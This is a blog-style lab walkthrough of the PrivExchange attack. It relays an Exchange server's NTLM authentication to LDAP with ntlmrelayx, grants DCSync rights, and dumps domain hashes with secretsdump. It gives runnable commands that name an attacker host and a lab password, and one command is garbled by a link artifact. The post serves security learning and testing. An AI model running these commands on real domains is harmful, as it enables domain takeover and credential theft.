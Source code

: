 ```yaml
---
layout: single
classes: wide
title:  "Exploiting PrivExchange"
date:   2019-04-11 10:02:00 +0100
---
```


This is not my discovery, and is merely an expansion and demo of how to use the PrivExchange.
[Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

# Overview

The “PrivExchange” tool simply logs in on Exchange Web Services to subscribe to push notifications. This will make the Exchange server's machine account send its NTLMv2 hash back to your box. As this account usually has severely high privileges in the domain, it can then be relayed to gain domain privilege escalation.

## Prerequisites

1. A host on the network with the ability to run your tools.
2. A valid domain user account and password (or NTLM hash).
3. A valid Exchange Server hostname or IP address. 

    `pth-net rpc group members “Exchange Servers” -I dc01.lab.local -U lab/buff`

    ![pth-net rpc](../assets/img/privexchange/rpc.jpg)

4. **[PrivExchange](https://github.com/dirkjanm/PrivExchange.git)** and **[Impacket](https://github.com/SecureAuthCorp/impacket)** toolkit installed.
5. Domain Name, DC IP, Exchange Server, and your Attack host IP. 

### The different components of the attack

- `lab.local` - AD Domain Name
- `dc01.lab.local` - AD Domain Controller
- `mail01.lab.local` - AD Exchange Server
- `192.168.0.142` - Attacker host

# Exploitation Steps

Run `NTLMRelayX`  with the DC IP that we want to relay to.

    `ntlmrelayx.py -t ldap://dc01.lab.local --escalate-user buff`

![escalate-user buff](../assets/img/privexchange/2019-04-11-10-27-34.png)


Use the “PrivExchange” tool to send push notification to your own NTLM Relay server. The `-ah` parameter denotes the `attacking host` and the parameter after is the Exchange server. We also have to give it out current username and password.

    python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1

![](../assets/img/privexchange/2019-04-11-10-33-01.png)

Things start happening in the relaying window. We can see a request coming in from the `MAIL01$` machine account.

![](../assets/img/privexchange/2019-04-11-11-11-36.png)

Once the user in our control obtains `Replication-Get-Changes-All` privileges in the domain we can run `secretsdump.py` to dump hashes from the domain controller.

    [secretsdump.py](http://secretsdump.py/) lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm

![](../assets/img/privexchange/2019-04-11-10-43-45.png)

### **Wireshark.**

We first see the API call on HTTPS go to the Exchange server. Followed by 1 minute of waiting, we see a connection negotitation happen initiated from the Exchange server, followed by our Kali box POSTing the /privexchange URL.

![](../assets/img/privexchange/2019-04-11-10-44-01.png)

Followed by the relay to LDAP

![](../assets/img/privexchange/2019-04-11-10-44-16.png)

## Cleanup

In “Active Directory Users and Computers”, enable Advanced Features (in View Menu), Right-click [Domain -> Security -> Advanced]. Then look for the domain username account that you just gave “Replicating Directory Changes” and “Replicating Directory Changes All” privileges to and remove those Permission entries in the “Allow” checkboxes.

For example, if we use ADSI Edit to view the properties of the domain object, we can see that the domain user account we gave DCsync privileges have those privs:

![](../assets/img/privexchange/2019-04-11-10-42-24.png)

## References

[https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)

[https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange) (python Version)

[https://github.com/G0ldenGunSec/PowerPriv](https://github.com/G0ldenGunSec/PowerPriv) (powershell version)

[https://github.com/panagioto/SharpExchangePriv](https://github.com/panagioto/SharpExchangePriv) (C# version)